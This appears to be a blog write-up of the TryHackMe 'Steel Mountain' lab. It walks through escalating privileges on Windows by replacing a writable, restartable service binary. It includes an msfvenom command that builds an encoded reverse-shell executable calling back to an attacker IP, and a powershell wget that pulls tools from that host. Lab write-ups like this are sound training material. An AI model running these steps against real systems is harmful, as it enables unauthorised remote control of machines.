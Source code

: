 ```yaml
---
title: TryHackMe - Steel Mountain
date: 2023-09-03 11:11:11 -001
categories: [TryHackMe, THM]
tags: [thm, steel mountain]
---
```



# Steel Mountain

Rejetto File Server 

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script here. Now you can use the upload command in Metasploit to upload the script.

> PowerUp Script - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

to upload script

![image info](/images/upload.png)

* To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell *



Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

```powershell

PS > . .\PowerUp.ps1  
PS > Invoke-AllChecks

```

![](/images/powerup.png)
Output of Invoke-AllChecks has options

Check for service which has option **CanRestart** option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

#### Sample Output Below

```powershell

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                     : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

```

> Notice CanRestart set to True in above sample

### msfvenom

Now we can use msfvenom to generate a reverse shell as an Windows executable.

``` bash

> msfvenom -p windows/shell_reverse_tcp LHOST=10.4.43.77 LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe
```


![](/images/cmd_to_query_service.png)

![](/images/cmd_to_stop_servcie.png)

![](/images/cmd_to_copy_and_start_service.png)


Run 

```python -m http.server 80```

andthen use this to transfer file

```powershell -c wget "http://10.4.43.77/winPEASx86.exe" -outfile "winPEASx86.exe"```

